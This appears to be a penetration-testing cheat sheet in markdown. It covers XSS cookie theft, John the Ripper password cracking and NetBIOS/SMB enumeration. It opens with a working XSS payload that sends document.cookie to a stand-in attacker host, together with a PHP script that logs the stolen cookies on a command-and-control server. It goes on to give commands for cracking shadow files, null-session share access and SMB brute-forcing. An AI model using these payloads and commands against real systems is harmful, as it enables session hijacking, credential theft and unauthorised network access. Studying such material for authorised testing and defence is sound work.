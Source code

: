- XSS: stealing cookie content and sending it to an attacker
  - XSS to insert on target: 
    ```html
    <script>
    var i = new Image();
    i.src="http://attacker.site/log.php?q="+document.cookie; 
    </script>
    ```
  - PHP script to store captured data on our c2:
    ```php
    <?PHP
    $filename="/tmp/log.txt"; // Where to save, this file should be already created on our c2
    $fp=fopen($filename, 'a'); 
    $cookie=$_GET['q']; // the parameter to store the cookies/ whatever command we need into
    fwrite($fp, $cookie);
    fclose($fp);
    ?>
    ```

### Passwords
- John the Ripper
  - `unshadow passwd shadow > crackme` - Sets the pass/ shadow in a format john will accept to begin cracking on crackme
  - `john --wordlist=/usr/share/SecLists/Passwords.txt --pot=hashestocrack hashestocrack` - Will overwrite the john pot file in case you want to run multiple attempts on the same file in the same session.
  - `john --incremental --users:<list of users or just one EX: Brian> crackme` - NOTE: Incremental is not meant to be used with a wordlist and will attempt typical brute-force. Will only attempt specified users instead of going through all. 
  - `john --wordlist --users:victim1,victim2 crackme` - Uses default wordlist for a dictionary attack
    - `john --wordlist=/usr/share/wordlist/rockyou.txt --users:vitcim1 crackme` - Using custom wordlists
    
### NetBIOS
- Why is NetBIOS great to enumerate? Gives us information about: 
  - **Network Shares**
  - Hostname
  - NetBIOS name
  - Domain
- `\\ComputerName\C$` - allows us to access a disk volume on the share. (C$, D$, E$...)
- `\\ComputerName\admin$` - Gives us the Windows installation directory
- `\\ComputerName\ipc$` - (Can't be viewed in explorer, stick to the terminal) Taps/ communicates directly with processes running on that network. For a null session: `net use \\<IP ADDRESS>\IPC$ "" /user:`
- Enumeration
  - `nbstat -A 10.10.10.222` 
  - `<00>` - Means that this machine is a CLIENT
  - `<20>` - Means file sharing is enabled on that machine. Enumerate it further, this is of most importance.
    - `NET VIEW <TARGET MACHINE IP>` - To enumerate the file sharing on that machine
    - NOTE: To enumerate on linux use `nmblookup -A 10.10.10.222` or even better, `smbclient -L \\10.10.10.222 -N` where flag `-N` is to omit NetBIOS requesting a password
  - `UNIQUE` - Means that machine can have only 1 IP assigned to it
- `enum4linux -n 10.10.10.222`
- `nmap -script=smb-brute 10.10.10.222` - Quickly gives us a login and password for users
